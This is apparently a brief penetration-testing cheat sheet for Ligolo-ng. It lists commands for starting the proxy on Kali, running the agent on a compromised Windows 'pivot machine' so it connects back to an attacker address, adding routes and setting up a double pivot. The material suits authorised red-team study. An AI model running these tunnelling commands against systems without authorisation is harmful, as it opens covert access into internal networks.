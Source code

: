 # Name
Ligolo-ng

## Usage
```
On Kali:
    ./proxy_linux64 -selfcert -laddr 0.0.0.0:443 

    After client connects:
        In Ligolo-ng session: 
            session
            ifconfig
            autoroute
        In event that route already exists, in Kali terminal:
            sudo ip route del 172.16.218.0/24 dev <interface name> 

On pivot machine:
    .\agent_win64.exe -connect 192.168.45.227:443 -ignore-cert

Double pivot:
    In initial ligolo-ng session:
        listener_add --addr 0.0.0.0:80 --to 127.0.0.1:80
```

## Source
https://github.com/nicocha30/ligolo-ng/releases/tag/v0.7.5
